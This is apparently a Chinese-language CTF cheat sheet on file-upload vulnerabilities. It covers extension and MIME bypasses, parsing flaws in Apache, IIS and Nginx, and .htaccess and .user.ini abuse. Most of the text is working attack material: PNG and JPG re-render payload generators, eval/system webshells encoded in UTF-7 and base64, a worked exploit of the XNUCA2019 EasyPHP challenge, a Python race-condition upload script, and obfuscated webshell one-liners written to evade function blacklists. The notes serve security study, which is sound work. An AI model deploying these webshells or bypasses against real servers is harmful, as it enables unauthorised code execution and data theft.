# 前端绕过

删除或者禁用js


# 后缀名检测漏洞

黑名单检测:一般有个专门的 blacklist 文件，里面会包含常见的危险脚本文件。 例如: fckeditor 2.4.3 或之前版本的黑名单:


## 绕过方法

### 解析漏洞

- .htaccess文件解析漏洞- apache解析漏洞
- IIS7.0 | IIS7.5 | Nginx的解析漏洞
- IIS6.0解析漏洞

### 截断上传

- 截断类型:PHP%00截断
- 截断原理:由于00代表结束符,所以会把00后面的所有字符都截断
- 截断条件:PHP版本小于5.3.4,PHP的magic_quotes_gpc为OFF状态

### 大小写绕过

比如：aSp和pHp之类。

### 黑名单扩展名的漏网之鱼

比如: asa和cer之类 asp:  asa  cer   aspx   jsp:jspx jsp php: php php3 php4  php5 phtml pht exe:  exee

### 利用Windows的命名机制

shell.php.shell.php空格shell.php:1.jpg

shell. php::$DATA

shell.php:1.jpg 

在windows中，后缀名后面的点和空格都会被删除掉。

### 双写绕过

有时候在检测时，后台会把敏感字符替换成空格，这个时候，我们可以使用双写进行绕过。比如：pphphp


白名单的绕过和上面差不多


### 后端检测_MIME检测：


# 

# 后端检测_MIME检测

## 常见的MIME类型

text/plain （纯文本） 

text/html （HTML文档） 

text/javascript （js代码） 

application/xhtml+xml （XHTML文档） 

image/gif （GIF图像） 

image/jpeg （JPEG图像） 

image/png （PNG图像） 

video/mpeg （MPEG动画） 

application/octet-stream （二进制数据） 

application/pdf （PDF文档）


## 检测方式


# 后端检测_文件头检测漏洞

## 原理

在每一个文件（包括图片，视频或其他的非ASCII文件）的开头（十六进制表示）实际上都有一片区域来显示这个文件的实际用法，这就是文件头标志。我们可以通过16进制编辑器打开文件，添加服务器允许的文件头以绕过检测。


## 常见的文件头

注意：下面的文件头的格式是16进制的格式：

```plain
GIF：47 49 46 38 39 61    # GIF89a
png：89 50 4E 47 0D 0A 1A 0A    
JPG：FF D8 FF E0 00 10 4A 46 49 46
```

在进行文件头绕过时，我们可以把上面的文件头添加到我们的一句话木马内容最前面，达到绕过文件头检测的目的。


# 后端检测_内容检测图片马绕过


## 漏洞原理

一般文件内容验证使用getimagesize函数检测,会判断文件是否是一个有效的文件图片,如果是,则允许上传,否则的话不允许上传。 

## 图片马制作

准备一张图片，这里为a.png，和一个一句话木马，通过以下命令合成一个图片马3.php。 a.php内容为一句话木马。所用命令如下

```shell
copy a.png /b + a.php /a 3.php  
/b:指定以二进制格式复制、合并文件，用于图像或者声音类文件
/a:指定以ascii格式复制、合并文件用于txt等文本类文件
 注：这条命令的意思是：通过copy命令，把a.png图片文件，以二进制文件形式添加到a.php文件中，以ASCII文本文件形式输出为3.php文件。
```


## 解析图片马

一般解析图片马需要结合解析漏洞或者文件包含才能解析图片马


# 解析漏洞

## Apache解析漏洞

### 漏洞原理

Apache 解析文件的规则是从右到左开始判断解析，如果后缀名为不可识别文件解析，就再往左判断。比如test.php.a.b的“.a”和“.b”这两种后缀是apache不可识别解析，apache就会把test.php.a.b解析成test.php。

### 影响版本

apache 1.x apache 2.2.x


## IIS6.0解析漏洞

IIS6.0解析漏洞分两种： 

1、目录解析： 以xx.asp命名的文件夹里的文件都将会被当成ASP文件执行。 

2、文件解析： xx.asp;.jpg 像这种畸形文件名在;后面的直接被忽略，也就是说当成xx.asp文件执行。

 IIS6.0 默认的可执行文件除了asp还包含这三种 .asa .cer .cdx


## IIS7.0 | IIS7.5 | Nginx的解析漏洞

### 原理

Nginx拿到文件路径（更专业的说法是URI）/test.jpg/test.php后，一看后缀是.php，便认为该文件是php文件，转交给php去处理。php一看/test.jpg/test.php不存在，便删去最后的/test.php，又看/test.jpg存在，便把/test.jpg当成要执行的文件了，又因为后缀为.jpg，php认为这不是php文件，于是返回Access denied。   这其中涉及到php的一个选项：cgi.fix_pathinfo，该值默认为1，表示开启。开启这一选项PHP可以对文件路径进行修理。 

举个例子，当php遇到文件路径/1.jpg/2.txt/3.php时，若/1.jpg/2.txt/3.php不存在，则会去掉最后的/3.php，然后判断/1.jpg/2.txt是否存在，若存在，则把/1.jpg/2.txt当做文件/1.jpg/2.txt/3.php，若/1.jpg/2.txt仍不存在，则继续去掉/2.txt，以此类推。

### 漏洞形式

www.xxxxx.com/UploadFiles/image/1.jpg/1.php


# 条件竞争漏洞

结合文件包含利用


# 二次渲染漏洞

## 二次渲染原理

在我们上传文件后，网站会对图片进行二次处理（格式、尺寸要求等），服务器会把里面的内容进行替换更新，处理完成后，根据我们原有的图片生成一个新的图片并放到网站对应的标签进行显示。

## 绕过

1、配合文件包含漏洞： 将一句话木马插入到网站二次处理后的图片中，也就是把一句话插入图片在二次渲染后会保留的那部分数据里，确保不会在二次处理时删除掉。这样二次渲染后的图片中就存在了一句话，在配合文件包含漏洞获取webshell。 

2、可以配合条件竞争： 这里二次渲染的逻辑存在漏洞，先将文件上传，之后再判断，符合就保存，不符合删除，可利用条件竞争来进行爆破上传

## 如何判断图片是否进行了二次处理

对比要上传图片与上传后的图片大小，使用16进制编辑器打开图片查看上传后保留了哪些数据，查看那些数据被改变。


## png二次渲染

利用下方代码进行png二次渲染绕过

```php
<?php
  $p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
             0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
             0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
             0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
             0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
             0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
             0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
             0x66, 0x44, 0x50, 0x33);


$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
  $r = $p[$y];
  $g = $p[$y+1];
  $b = $p[$y+2];
  $color = imagecolorallocate($img, $r, $g, $b);
  imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'1.png'); #保存在本地的图片马
?>
```

木马内容

```php
<?$_GET[0]($_POST[1]);?>
```

imagepng($img,'1.png');
要修改的图片的路径,1.png是使用的文件，可以不存在
会在目录下自动创建一个1.png图片
图片脚本内容：

```php
$_GET[0]($_POST[1]);
```

使用方法：
例子：查看图片，get传入0=system；post传入tac flag.php

注：
运行上面的代码需要有php的gd库

下面的代码可以检测是否有gd库的存在

```php
<?php
  if(extension_loaded('gd')) {
  echo '可以使用gd
';
foreach(gd_info() as $cate=>$value)
  echo "$cate: $value
";
}else
echo '没有安装gd扩展';
?>
```

如没有
把你PHP目录下的ext文件夹里的php_gd.dll复制到系统目录下(C:\Windows\System32),然后修改你的php.ini文件,找到以下位置

```php
;extension=php_gd.dll
```

把前面的;去掉
如php.ini中没有extension=php_gd.dll，自行添加即可

将生成的图片上传，bp抓包



## jpg二次渲染

运用以下脚本进行jpg二次渲染绕过

```php
<?php
$miniPayload = '<?=eval($_POST[1]);?>';
if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
    die('php-gd is not installed');
}
if(!isset($argv[1])) {
    die('php jpg_payload.php <jpg_name.jpg>');
}
set_error_handler("custom_error_handler");
for($pad = 0; $pad < 1024; $pad++) {
    $nullbytePayloadSize = $pad;
    $dis = new DataInputStream($argv[1]);
    $outStream = file_get_contents($argv[1]);
    $extraBytes = 0;
    $correctImage = TRUE;
    if($dis->readShort() != 0xFFD8) {
        die('Incorrect SOI marker');
    }
    while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
        $marker = $dis->readByte();
        $size = $dis->readShort() - 2;
        $dis->skip($size);
        if($marker === 0xDA) {
            $startPos = $dis->seek();
            $outStreamTmp =
                substr($outStream, 0, $startPos) .
                $miniPayload .
                str_repeat("\0",$nullbytePayloadSize) .
                substr($outStream, $startPos);
            checkImage('_'.$argv[1], $outStreamTmp, TRUE);
            if($extraBytes !== 0) {
                while((!$dis->eof())) {
                    if($dis->readByte() === 0xFF) {
                        if($dis->readByte !== 0x00) {
                            break;
                        }
                    }
                }
                $stopPos = $dis->seek() - 2;
                $imageStreamSize = $stopPos - $startPos;
                $outStream =
                    substr($outStream, 0, $startPos) .
                    $miniPayload .
                    substr(
                        str_repeat("\0",$nullbytePayloadSize).
                        substr($outStream, $startPos, $imageStreamSize),
                        0,
                        $nullbytePayloadSize+$imageStreamSize-$extraBytes) .
                    substr($outStream, $stopPos);
            } elseif($correctImage) {
                $outStream = $outStreamTmp;
            } else {
                break;
            }
            if(checkImage('payload_'.$argv[1], $outStream)) {
                die('Success!');
            } else {
                break;
            }
        }
    }
}
unlink('payload_'.$argv[1]);
die('Something\'s wrong');
function checkImage($filename, $data, $unlink = FALSE) {
    global $correctImage;
    file_put_contents($filename, $data);
    $correctImage = TRUE;
    imagecreatefromjpeg($filename);
    if($unlink)
        unlink($filename);
    return $correctImage;
}
function custom_error_handler($errno, $errstr, $errfile, $errline) {
    global $extraBytes, $correctImage;
    $correctImage = FALSE;
    if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
        if(isset($m[1])) {
            $extraBytes = (int)$m[1];
        }
    }
}
class DataInputStream {
    private $binData;
    private $order;
    private $size;
    public function __construct($filename, $order = false, $fromString = false) {
        $this->binData = '';
        $this->order = $order;
        if(!$fromString) {
            if(!file_exists($filename) || !is_file($filename))
                die('File not exists ['.$filename.']');
            $this->binData = file_get_contents($filename);
        } else {
            $this->binData = $filename;
        }
        $this->size = strlen($this->binData);
    }
    public function seek() {
        return ($this->size - strlen($this->binData));
    }
    public function skip($skip)
    {
        $this->binData = substr($this->binData, $skip);
    }
    public function readByte() {
        if($this->eof()) {
            die('End Of File');
        }
        $byte = substr($this->binData, 0, 1);
        $this->binData = substr($this->binData, 1);
        return ord($byte);
    }

    public function readShort() {
        if(strlen($this->binData) < 2) {
            die('End Of File');
        }
        $short = substr($this->binData, 0, 2);
        $this->binData = substr($this->binData, 2);
        if($this->order) {
            $short = (ord($short[1]) << 8) + ord($short[0]);
        } else {
            $short = (ord($short[0]) << 8) + ord($short[1]);
        }
        return $short;
    }

    public function eof() {
        return !$this->binData||(strlen($this->binData) === 0);
    }
}
?>
```

先上传一张jpg图片然后下载到本地重命名为2.jpg，再用jpg脚本生成payload_2.jpg
 

a为文件名

```plain
php jpg二次渲染.php a.jpg
```

在上传payload_2.jpg，抓包
 

**注：**
jpg脚本需在linux环境下运行,我的系统为ubuntu

**安装php**

```php
sudo apt-get install php
```

发现报错，需要重新寻找更新源
 **解决方法如下：**

```shell
sudo vim sources.list

deb http://mirrors.aliyun.com/ubuntu/ raring main restricted universe multiverse  deb http://mirrors.aliyun.com/ubuntu/ raring-security main restricted universe multiverse  deb http://mirrors.aliyun.com/ubuntu/ raring-updates main restricted universe multiverse  deb http://mirrors.aliyun.com/ubuntu/ raring-proposed main restricted universe multiverse  deb http://mirrors.aliyun.com/ubuntu/ raring-backports main restricted universe multiverse  deb-src http://mirrors.aliyun.com/ubuntu/ raring main restricted universe multiverse  deb-src http://mirrors.aliyun.com/ubuntu/ raring-security main restricted universe multiverse  deb-src http://mirrors.aliyun.com/ubuntu/ raring-updates main restricted universe multiverse  deb-src http://mirrors.aliyun.com/ubuntu/ raring-proposed main restricted universe multiverse  deb-src http://mirrors.aliyun.com/ubuntu/ raring-backports main restricted universe multiverse  


sudo apt-get update
sudo apt-get install php

jpg脚本需要php-gd库，下面为下载流程
sudo apt-cache search php-gd（查询需要的php-gd版本）
sudo apt-get install php7.4-gd
sudo php -m（查看gd是否安装成功）
```


# user.ini利用

## 原理

有2个属性，它们的作用是，auto_append_file在php文件最后用require包含进指定文件，auto_prepend_file则是在php文件代码执行前用require包含进指定的文件

它们在.user.ini中的语法十分的简单

```python
//.user.ini

auto_prepend_file=top.html
auto_append_file=down.html
```


## auto_prepend_file和auto_append_file包含非php文件

先上传图片马


接着写一个包含


查看/upload目录下的php文件包含成功，执行了php代码
 


# .htaccess利用

.htaccess只是适用于apache。如果变成niginx或者iis则不会被解析

### 源码泄露

我们可以通过 .htaccess 文件的 php_flag 指令对 PHP 的 engine 配置选项进行设定，当把 engine 的值设为 off（或 0）时可以禁用一个本目录和子目录中的 PHP 解析，此时将会造成源码泄露：



```php
php_flag engine 0
```

这里在谷歌浏览器访问会直接显示源码（用其他浏览器访问会显示空白，还需查看源码，才可看到泄露的源码）：



### 图片马解析

我们知道，在文件上传漏洞中经常遇到上传图片马的情况，如果目标环境开启了 .htaccess 并且上传的黑名单没有限制 .htaccess 文件的话，我们便可以先上传 .htaccess 文件，对目标环境的目录进行相应的配置，然后再上传图片，使图片的 PHP 恶意代码得以被直接解析执行。

此时，常用的的两个 .htaccess 指令如下：

- SetHandler 指令

我们可以使用 SetHandler 指令强制将所有匹配的文件被 PHP 处理器处理并解析：

```php
# 将images.png 当做 php 执行
<FilesMatch "images.png">
    SetHandler application/x-httpd-php
</FilesMatch>
```

- AddType 指令

也可以使用 AddType 指令将给定的文件扩展名映射到 PHP 的内容类型：

```php
# 将 .jpg 当做 php 文件解析
AddType application/x-httpd-php .png
```

这两种配置都可以使我们上传的非 PHP 类型的 Webshell 被当做 PHP 直接解析：



### 文件包含

#### 本地文件包含

在本目录或子目录中有可解析的 PHP 文件时，可以通过 php_value 来设置 auto_prepend_file 或者 auto_append_file 配置选项来让所有的 PHP 文件自动包含一些敏感文件或恶意文件（如WebShell），来触发文件包含。

下面 .htaccess 分别通过这两个配置选项来包含 /etc/passwd，并访问同目录下的 index.php文件。

- auto_prepend_file

```php
php_value auto_prepend_file /etc/passwd
```

- auto_append_file

```php
php_value auto_append_file /etc/passwd
```

这两个配置选项用于设置访问一个 PHP 文件时，在该 PHP 文件解析之前会先自动包含并解析的文件。如下图当我们访问 index.php 时，便会自动将 /etc/passwd 包含进来：



在实际的文件上传利用中，如果目标环境的当前目录中存在至少一个 PHP 文件且上传黑名单没有限制 .htaccess 文件的话，我们便可以上传包含以上指令的 .htaccess 文件，将我们需要读取的敏感文件包含进来并读取。

同理，我们也可以让 index.php 文件包含一个含有 Webshell 的文件来 Getshell，可用于图片马的解析：

```php
php_value auto_prepend_file images.png
或:
php_value auto_append_file images.png
```



#### 远程文件包含

PHP 的 allow_url_include 配置选项这个选项默认是关闭的，如果开启的话就可以进行远程包含。因为 allow_url_include 的配置范围为 PHP_INI_SYSTEM，所以无法利用 php_flag 指令在 .htaccess 文件中开启。这里为了演示，就先在 php.ini 中设置 allow_url_include 为 On。

.htaccess 文件中的设置为：

```php
php_value auto_prepend_file http://192.168.0.181/phpinfo.txt
或:
php_value auto_append_file http://192.168.0.181/phpinfo.txt
```

远程主机上的phpinfo.txt中的内容为：

```php
<?php phpinfo();?>
```

这样，最终目标主机上的php文件都会包含这个远程主机上的 phpinfo.txt 并解析执行：



### 任意代码执行

#### 通过 PHP 伪协议

这里主要用的还是 auto_prepend_file 或 auto_append_file 这两个配置项。

条件：

- allow_url_fopen 为 On
- allow_url_include 为 On
- 目标环境的当前目录中存在至少一个 PHP 文件

```php
php_value auto_append_file data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+
或:
php_value auto_append_file data://text/plian,%3c%3fphp+phpinfo()%3b%3f%3e
// 如果不使用base64加密则注意需要url编码
```


#### 通过解析 .htaccess 文件

- 方法一：通过包含 .htaccess 自身

```php
php_value auto_append_file .htaccess
#<?php phpinfo();?>
```

即让所有的 PHP 文件都包含 .htaccess 文件自身：


- 方法二：直接将 .htaccess 文件当做 PHP文件处理

这种方法适合目标环境当前目录或子目录下没有 PHP 文件的情况下。

需要先在 .htaccess 里面设置允许访问 .htaccess 文件，否则是直接访问 .htaccess 文件是Forbidden的：

```php
<Files ~ "^.ht">
    Require all granted
    Order allow,deny
    Allow from all
</Files>
```

然后再设置将 .htaccess 指定当做 PHP 文件处理并解析：

```php
SetHandler application/x-httpd-php
# <?php phpinfo();?>
```

最终 .htaccess 文件里面的内容为：

```php
<Files ~ "^.ht">
    Require all granted
    Order allow,deny
    Allow from all
</Files>
SetHandler application/x-httpd-php
# <?php phpinfo();?>
```

然后我们直接访问 .htaccess 文件即可把 .htaccess 文件当做 PHP 文件处理并执行里面的 PHP 代码：



### 进行 XSS 攻击

#### 通过设置 highlight_file

我们可以通过 .htaccess 文件设定 highlight.comment 选项，指定需要高亮的内容，从而进行 XSS。

.htaccess中的内容

```php
php_value highlight.comment '"><script>alert(1);</script>'
```

index.php中的内容为：

```php
<?php
highlight_file(__FILE__);
// comment
```

当访问index.php时便会触发 XSS：


#### 通过错误消息链接

.htaccess 中的内容：

```php
php_flag display_errors 1
php_flag html_errors 1
php_value docref_root "'><script>alert(1);</script>"
```

index.php 中的内容为：

```php
<?php
include('foo'); // 这里会报错
```

当访问index.php时便会触发 XSS：



### 自定义错误文件（可写Webshell）

error_log 可以将 PHP 运行报错的记录写到指定文件中，因此我们可以通过 .htaccess 文件设定 error_log 选项来自定义错误文件的存储路径，并以此来写入Webshell：

```php
php_value error_log /var/www/html/shell.php
php_value include_path "<?php phpinfo(); __halt_compiler();"
# include_path 用来将include()的默认目录路径改变
```

index.php 中的内容为：

```php
<?php
include('foo'); // 这里会报错
```

访问 index.php，会报错并记录在 shell.php 文件中：


如上图可见，成功将我们的phpinfo()写入了shell.php中，但是 < 等字符会经过 html 编码（如上图所示），所以我们需要用 UTF-7 编码格式来绕过。下面我们通过 [XNUCA2019Qualifier]EasyPHP 这道CTF例题来深入的探究。

#### [XNUCA2019Qualifier]EasyPHP

进入题目，给出源码：

```php
<?php
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    include_once("fl3g.php");
    if(!isset($_GET['content']) || !isset($_GET['filename'])) {
        highlight_file(__FILE__);
        die();
    }
    $content = $_GET['content'];
    if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) {
        echo "Hacker";
        die();
    }
    $filename = $_GET['filename'];
    if(preg_match("/[^a-z\.]/", $filename) == 1) {
        echo "Hacker";
        die();
    }
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    file_put_contents($filename, $content . "\nJust one chance");
?>
```

整个代码的逻辑也比较简单，首先删除当前目录下非index.php的文件，然后 include_once("fl3g.php");，之后获取filename和content参数的值，并将content写入filename指定的文件中。其中对filename和content都有过滤，要求content中不能有on、html等关键字，且filename不能匹配到 a-z 和点号 . 以外的字符。

这道题因为看到file_put_content和unlink自然想到了条件竞争写shell，但是测试过程虽然能够写进.php文件但是不解析。

并且由于题目服务器中间件为 Apache，因此想到了传 .htaceess 利用自定义错误文件写Webshell。但我们还需要解决一下问题。

**（1）使 .htaccess 生效**

如果我们直接上传.htaccess文件，由于我们写入的内容会被自动在末尾加上“\nJust one chance”，所以会使我们的.htaccess文件不生效，出现响应500的问题。为了时我们写入的.htaccess文件生效，我们要采用 \ 的方式将换行符转义成普通字符，然后用 # 来注释单行了，即：

```php
......
# \\nJust one chance
```

这样我们写入上传的 .htaccess 文件就能生效了。

**（2）include_path**

在题目的代码中有一处 include_once("fl3g.php");，但是当我们访问fl3g.php文件时却发现该文件并不存在，这里便用到了php.ini中的include_path选项。

include_path可以用来设置include()或require()函数包含文件的参考目录路径，也就是说当使用include()或require()函数包含文件的时候，程序首先以include_path设置的路径作为参考点去找文件，如果找不到，则以程序自身所在的路径为参考点去找所要的文件，如果都找不到，则出错，那么我们就可以通过修改它来控制include的路径，那么如果我们能够在其它目录写入同名的fl3g.php让其包含，那么就能够getshell，并且可以使fl3g.php文件不被删除。

**（3）指定目录写文件（error_log）**

前面我们已经了解了，error_log 可以将 PHP 运行报错的记录写到指定文件中，利用这一点我们可以写Webshell。 但是如何触发报错呢？这就是为什么代码中写了一处不存在的fl3g.php的原因。我们可以将include_path的内容设置成payload的内容，这时访问页面，页面尝试将 payload 作为一个路径去访问时就会因为找不到fl3g.php而报错，并将报错记录在指定的错误文件中。

但是前面也说了，当我们传递 PHP 的 payload 时，因为我们传过去的内容会经过 html 编码，所以我们需要用 UTF-7 来绕过：

```php
php_value include_path "+ADw?php eval(+ACQAXw-POST+AFs-whoami+AF0)+ADs?+AD4-"
php_value error_log /tmp/fl3g.php
# \
```

解题过程如下。

- **第一步：写入 .htaccess error_log 相关的配置，将 payload 写入目标文件**

将上述内容进行url编码，然后构造 url 并执行：

```php
/index.php?filename=.htaccess&content=php_value%20include_path%20%22%2BADw%3Fphp%20eval(%2BACQAXw-POST%2BAFs-whoami%2BAF0)%2BADs%3F%2BAD4-%22%0Aphp_value%20error_log%20%2Ftmp%2Ffl3g.php%0A%23%20%5C
```



- **第二步：访问 index.php 触发报错留下 error_log**
- **第三步：写入 .htaccess 新的配置，将 include_path 选项设定为刚才生成的fl3g.php的目录,并配置解析的编码为 UTF-7**

```php
php_value include_path "/tmp"
php_fl\    # 这里使用\加换行的方式绕过对"flag"的过滤, 即php_flag zend.multibyte 1
ag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
# \
```

将上述内容进行url编码，然后构造 url 并执行：

```php
/index.php?filename=.htaccess&content=php_value%20include_path%20%22%2Ftmp%22%0Aphp_fl%5C%0Aag%20zend.multibyte%201%0Aphp_value%20zend.script_encoding%20%22UTF-7%22%0A%23%20%5C
```



- **第四步：构造如下读取flag**

```php
POST: whoami=system('cat /flag');
```


如上图所示，成功执行命令并得到flag。

这个题也可以用通过包含 .htaccess 自身的方法Getshell：

```php
php_value auto_prepend_fi\
le ".htaccess"
#<?php @eval($_GET['cmd']); ?>\
```

### 正则回朔绕过正则匹配

[《PHP利用PCRE回溯次数限制绕过某些安全限制》](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html) 这篇文章中提到了一个正则回朔绕过 preg_match 检测的方法。即 PHP 的配置选项 pcre.backtrack_limit 给 pcre 设定了一个回溯次数上限，默认为1000000，如果回溯次数超过这个数字，preg_match 会返回false，我们可以通过这一点来绕过 preg_match 等函数正则匹配的检测。

由于 .htaccess 可以设定 PHP 的配置选项，那我们便可以将 pcre.backtrack_limit 设为 0 ，从而利用这个漏洞：

```php
php_value pcre.backtrack_limit 0
php_value pcre.jit 0
# \
```

我们还是通过刚才那个 CTF 例题来看一下具体的利用过程。

进入题目，给出源码：

```php
<?php
    ......
    $filename = $_GET['filename'];
    if(preg_match("/[^a-z\.]/", $filename) == 1) {
        echo "Hacker";
        die();
    }
    ......
    file_put_contents($filename, $content . "\nJust one chance");
?>
```

可以看到代码中的 preg_match 使用正则匹配限制filename只能是 a-z 和点号 . ，那我们便可以通过写入 .htaccess 设置回溯次数（pcre.backtrack_limit）为 0，从而绕过这里的正则回溯，直接将我们的Webshell写入fl3g.php。

首先将 pcre.backtrack_limit 的配置写入 .htaccess：

```php
/index.php?filename=.htaccess&content=php_value%20pcre.backtrack_limit%200%0Aphp_value%20pcre.jit%200%0A%23%20%5C
```



然后访问以下 url 将 Webshell 写入fl3g.php：

```php
/index.php?filename=fl3g.php&content=<?php phpinfo();?>
```

执行后可以发现，成功将Webshell写入了fl3g.php：



### 绕过 <? 特殊字符

有时候，目标环境会限制我们上传或写入的文件内容中不能存在 <? 等特殊字符，如果没有限制 .htaccess 的话，我们同样可以使用 .htaccess 来绕过。

#### Base64 编码绕过

主要就是利用 auto_append_file 和 PHP 伪协议，比如我们在一个图片中写入经过base64编码后的 Webshell，然后我们便可以使用 auto_append_file 配合 php://filter 将其包含进来：

```php
php_value auto_append_file "php://filter/convert.base64-decode/resource=images.png"

# images.png 中是经过base64编码后的Webshell
```

我们直接使用data://协议也是可以的，这样就不需要上传 images.png 了：

```php
php_value auto_append_file data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+
```



#### UTF-7 编码格式绕过

这种方法我们在前文中已经涉及到了，比如我们在一个图片中写入 UTF-7 编码格式的 Webshell：

```php
// images.png
+ADw?php eval(+ACQAXw-POST+AFs-whoami+AF0)+ADs?+AD4-
```

然后我们使用 auto_append_file 将其包含进来并设置编码格式为 UTF-7 就行了：

```php
php_value auto_append_file images.png
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
```

当然，也可以使用 php://filer 伪协议进行 UTF-7 与 UTF-8 之间的转换，即：

```bash
php_value auto_append_file "php://filter/read=convert.iconv.utf-7.utf-8/resource=images.png"
```


也可以使用 .htaccess 自身包含来执行 Webshell，这样就不需要再上传一个 images.png 了：

```php
php_value auto_append_file .htaccess
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
# +ADw?php eval(+ACQAXw-POST+AFs-whoami+AF0)+ADs?+AD4-
```

同理，除了使用 UTF-7 外，UTF-16、UTF-32 都可以使用，方法都是一样的。

### 绕过关键字过滤

绕过对关键字的过滤我们可以使用反斜杠 \ 加换行来实现。比如题目过滤了 type、php 等敏感字符，此时为了利用 .htaccess 解析图片马，我们需要将 .htaccess 写成这样：

```php
AddTy\
pe application/x-httpd-ph\
p .png

# 即: AddType application/x-httpd-php .png
```

### 绕过脏字符

上面的 [XNUCA2019Qualifier]EasyPHP 这道题目已经涉及到了。即有时候，题目会在我们上传或写入的文件中加入一个混乱的字符（脏字符），由于这些字符不是 .htaccess 文件的语法或指令，所以会使我们的.htaccess文件不生效，出现响应500的问题。为了时我们写入的 .htaccess 文件生效，我们要采用 # 对脏字符进行注释，或使用反斜杠 \ 将换行符转义成普通字符。

### 绕过对上传图片的尺寸限制

有时候，在图片上传区会使用 getimagesize() 等函数对上传的图片进行尺寸限制，只允许上传指定大小尺寸的图片，并且会使用 exif_imagetype() 函数读取第一个字节并检查其图片类型。此时如果可以上传 .htaccess 来解析图片的话我们还需要让 .htaccess 的尺寸和经过 exif_imagetype() 检测后的结果符合题目要求。

我们可以使用 exif_imagetype() 函数支持的 WBMP 图像类型进行绕过。WBMP（Wireless Bitmap）是一种移动计算机设备使用的标准图像格式，是一种纯文本二进制图像格式的图片，实例如下：

```php
#define test_width 16
#define test_height 7
static char test_bits[] = {
0x13, 0x00, 0x15, 0x00, 0x93, 0xcd, 0x55, 0xa5, 0x93, 0xc5, 0x00, 0x80,
0x00, 0x60 };
```

可以看到 WBMP 图像的开头可以使用 # 设置图像的尺寸大小，这正符合我们的要求。所以假设题目限制我们上传的图片尺寸必须为1337×1337，那么我们在上传.htaccess时便可以用 WBMP 来绕过，例如：

```php
#define width 1337
#define height 1337
AddType application/x-httpd-php images.png
```


### 例题篇

[Insomnihack Teaser 2019 Web]l33t-hoster

[SUCTF 2019]EasyWeb


 


 

# 文件上传内容匹配绕过

## 简单的字符绕过

```python
<?=eval($_POST{1});?>
<?=system('tac ../f*')?>  //过滤了[]、php
<?=`tac ../f*`?>   //过滤括号
<?=include"var/lo"."g/nginx/access.lo"."g"?>  //过滤了php，执行函数，反引号等，日志包含，拼接绕过
```

## .user.ini结合sesesion竞争绕过

首先正常上传.user.ini，内容如下
 

接着上传png
 .

最后就开始条件竞争

```python
import requests
import threading
session=requests.session()
sess='yu22x'
url1="http://f275f432-9203-4050-99ad-a185d3b6f466.chall.ctf.show/"
url2="http://f275f432-9203-4050-99ad-a185d3b6f466.chall.ctf.show/upload"
data1={
    'PHP_SESSION_UPLOAD_PROGRESS':'<?php system("tac ../f*");?>'
}
file={
    'file':'yu22x'
}
cookies={
    'PHPSESSID': sess
}

def write():
    while True:
        r = session.post(url1,data=data1,files=file,cookies=cookies)
def read():
    while True:
        r = session.get(url2)
        if 'flag' in r.text:
            print(r.text)

threads = [threading.Thread(target=write),
           threading.Thread(target=read)]
for t in threads:
    t.start()
```


 
 
 

## 

## 绕过函数黑名单

参考https://blog.csdn.net/miuzzx/article/details/109537262

可以用于绕过函数正则匹配

```php
<?php
$a = "s#y#s#t#e#m";
$b = explode("#",$a);
$c = $b[0].$b[1].$b[2].$b[3].$b[4].$b[5];
$c($_REQUEST[1]);
?>
<?php
$a=substr('1s',1).'ystem';
$a($_REQUEST[1]);
?>
<?php
$a=strrev('metsys');
$a($_REQUEST[1]);
?>
<?php
$a=$_REQUEST['a'];
$b=$_REQUEST['b'];
$a($b);
?>
```

参考https://johnfrod.top/ctf/利用数学函数构造命令执行/

```php
<?php $pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi{abs})($$pi{acos});?>  

abs=system&acos=ls
// $pi=_GET;($_GET[abs])($_GET[acos])    ==> $pi=_GET;(system)(ls)
//得到 _GETflag.php index.php
<?php $pi=base_convert;$pi(1751504350,10,36)($pi(8768397090111664438,10,30)(){1};?>
HEADER:    1:cat flag.php
   
<?php $pi=(is_nan^(6).(4)).(tan^(1).(5));$pi=$$pi;$pi{0}($pi{1});?>


GET传参    0=system&1=cat flag.php
//$pi=_GET;$pi=$_GET;$_GET[0]($_GET[1])&0=system&1=cat flag.php     ==> system(cat flag.php)
```